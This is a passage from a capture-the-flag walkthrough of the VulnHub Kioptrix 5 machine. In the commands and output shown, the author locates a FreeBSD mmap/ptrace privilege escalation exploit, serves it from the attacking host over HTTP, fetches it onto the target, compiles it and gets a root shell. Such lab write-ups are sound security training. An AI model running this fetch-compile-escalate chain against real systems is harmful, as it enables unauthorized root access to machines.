 Identifying exploit’s patch and copying it to the clipboard and working directory.

```bash
root@kali:~/vulnhub/kioptrix_5# searchsploit -p 26368
  Exploit: FreeBSD 9.0 < 9.1 - 'mmap/ptrace' Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/26368
     Path: /usr/share/exploitdb/exploits/freebsd/local/26368.c
File Type: C source, ASCII text, with CRLF line terminators

Copied EDB-ID #26368's path to the clipboard.
root@kali:~/vulnhub/kioptrix_5# cp /usr/share/exploitdb/exploits/freebsd/local/26368.c .
```

### Exploitation

Next, starting Python Simple HTTP Server to serve the exploit.

```bash
root@kali:~/vulnhub/kioptrix_5# python -m SimpleHTTPServer 
Serving HTTP on 0.0.0.0 port 8000 ...
192.168.20.148 - - [05/Sep/2019 21:53:12] "GET /26368.c HTTP/1.1" 200 –
Using fetch command to download the exploit. (Unlike most Linux system, FreeBSD uses fetch not wget)
$ fetch http://192.168.20.144:8000/26368.c
26368.c                                               2213  B   14 MBps
```

Using **fetch** command to download the exploit. (Unlike most Linux system,
FreeBSD uses fetch not wget)

```bash
$ fetch http://192.168.20.144:8000/26368.c
26368.c                                               2213  B   14 MBps
```

Running exploit and gaining administrative privileges:

```bash
$ gcc 26368.c -o exp
26368.c:89:2: warning: no newline at end of file
$ ./exp
#whoami
root
# cd /root
# ls
.cshrc
.history
.k5login
.login
.mysql_history
.profile
congrats.txt
folderMonitor.log
httpd-access.log
lazyClearLog.sh
monitor.py
ossec-alerts.log
```
